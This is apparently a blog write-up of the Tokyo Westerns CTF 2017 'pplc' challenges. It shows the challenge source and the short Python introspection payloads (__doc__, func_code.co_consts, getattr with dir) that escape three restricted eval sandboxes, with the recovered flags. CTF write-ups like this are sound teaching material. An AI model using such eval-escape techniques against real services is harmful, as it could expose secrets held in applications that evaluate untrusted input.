 ```yaml
---
layout: post
title: "pplc"
---
```

# pplc - tokyo westerns ctf 3rd 2017

yet another PLC challange as last year's?

private: nc ppc1.chal.ctf.westerns.tokyo 10000

local: nc ppc1.chal.ctf.westerns.tokyo 10001

comment: nc ppc1.chal.ctf.westerns.tokyo 10002

[restricted_python.7z](https://twctf2017.azureedge.net/attachments/restricted_python.7z-9fa38ea88ab7e0fad4f1d7b085dec649140fc6f20665a7a60753156f0b53437a)

these challenges exercised the ability to break out of 3 various restricted python `eval` calls, a nice primer on using builtin python functionality to bypass restrictions! i found that using [ptpython](https://github.com/jonathanslenders/ptpython) was pretty useful since it has tab completion and you are able to surf your history much easier. if you are completely new to python exploitation i recommend going through the picoctf python exploitation challenges, i went through the ones from 2013 and learned quite a lot i was able to use on this challenge. in particular one should know about the [dir](https://docs.python.org/2/library/functions.html#dir) builtin function which returns an alphabetized list of names comprising (some of) the attributes of the given object, and of attributes reachable from it.

## comment
### comment.py
```python
import sys
from restrict import Restrict

r = Restrict()
# r.set_timeout()

d = sys.stdin.read()
assert d is not None
d = d[:20]

import comment_flag
r.seccomp()

print eval(d)
```
### comment_flag.py
```
'''
Welcome to unreadable area!
FLAG is TWCTF{CENSORED}
'''
```

comment was super simple, checking the `__doc__` attribute reveals the flag. docstrings are a string literal that occurs as the first statement in a module, function, class, or method definition. such a docstring becomes the `__doc__` special attribute of that object, according to the [PEP article on Docstrings](https://www.python.org/dev/peps/pep-0257/).

```python
>>> import comment_flag
>>> dir(comment_flag)
['__builtins__', '__doc__', '__file__', '__name__', '__package__']
>>> comment_flag.__doc__
'\nWelcome to unreadable area!\nFLAG is TWCTF{CENSORED}\n'
```

pointing this at the server:

```
$ ncat ppc1.chal.ctf.westerns.tokyo 10002 
comment_flag.__doc__
<ctrl-d>
Welcome to unreadable area!
FLAG is TWCTF{very simple docstring}
```

## local
### local.py
```python
import sys
from restrict import Restrict

r = Restrict()
# r.set_timeout()

def get_flag(x):
    flag = "TWCTF{CENSORED}"
    return x

d = sys.stdin.read()
assert d is not None
d = d[:30]

r.seccomp()

print eval(d)
```

since the problem name implies the use of the `locals()` builtin python function i experimented based on this and through that i found the `func_code` object for `get_flag` and its constants attribute (`co_consts`, see [this blog](http://akaptur.com/blog/2013/11/15/introduction-to-the-python-interpreter-2/) for a brief overview of code objects).

```python
>>> def get_flag(x):
  2     flag = "TWCTF{CENSORED}"
  3     return x
>>> locals()['get_flag']
<function get_flag at 0x7fb348434398>
>>> dir(locals()['get_flag'])
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
>>> locals()['get_flag'].func_code
<code object get_flag at 0x7fb34a7cf3b0, file "<stdin>", line 1>
>>> dir(locals()['get_flag'].func_code)
['__class__', '__cmp__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'co_argcount', 'co_cellvars', 'co_code', 'co_consts', 'co_filename', 'co_firstlineno', 'co_flags', 'co_freevars', 'co_lnotab', 'co_name', 'co_names', 'co_nlocals', 'co_stacksize', 'co_varnames']
>>> locals()['get_flag'].func_code.co_consts
(None, 'TWCTF{CENSORED}')
```

the only problem with solving this problem with `locals()` is i couldn't seem to figure out how to keep my code under 30 characters! what i had amounted to 40 characters, so i kept trying things - could i reference `get_flag` directly without using `locals()`? in fact i could - using the same attributes, even:

```python
>>> get_flag.func_code.co_consts
(None, 'TWCTF{CENSORED}')
```

pointing this at the server:
```
$ ncat ppc1.chal.ctf.westerns.tokyo 10001 
get_flag.func_code.co_consts
<ctrl-d>
(None, 'TWCTF{func_code is useful for metaprogramming}')
```

## private
### private.py
```python
import sys
from restrict import Restrict

r = Restrict()
# r.set_timeout()

class Private:
    def __init__(self):
        pass

    def __flag(self):
        return "TWCTF{CENSORED}"

p = Private()
Private = None

d = sys.stdin.read()
assert d is not None
assert "Private" not in d, "Private found!"
d = d[:24]

r.seccomp()

print eval(d)
```

private forces us not to use the string 'Private' in our code. the first thing i noticed was that using `dir` we could bypass writing 'Private':

```python
>>> dir(p)[0]
'_Private__flag'
```

using this and string append i found a string that would bypass the 'Private' restriction but it was too long:

```python
>>> "p.".__add__(dir(p)[0]).__add__("()")
'p._Private__flag()'
>>> eval("p.".__add__(dir(p)[0]).__add__("()"))
'TWCTF{CENSORED}'
>>> "p.".__add__(dir(p)[0]).__add__("()")
'p._Private__flag()'
>>> len('"p.".__add__(dir(p)[0]).__add__("()")')
37
```

surfing around the attributes of `Private` i found `__getattribute__` which is simply a method wrapper around the `getattr` builtin function. `getattr` gets a named attribute from an object; `getattr(x, 'y')` is equivalent to `x.y` according to the documentation. with `getattr` we are able to do the same as i was trying to do before but with less characters!

```python
>>> getattr(p, '_Private__flag')
<bound method Private.__flag of <__main__.Private instance at 0x7f99b1b1b440>>
>>> getattr(p, '_Private__flag')()
'TWCTF{CENSORED}'
>>> getattr(p, dir(p)[0])
<bound method Private.__flag of <__main__.Private instance at 0x7f99b1b1b440>>
>>> getattr(p, dir(p)[0])()
'TWCTF{CENSORED}'
```

pointing this at the server:

```
$ ncat ppc1.chal.ctf.westerns.tokyo 10000 
getattr(p, dir(p)[0])()
<ctrl-d>
TWCTF{__private is not private}
```

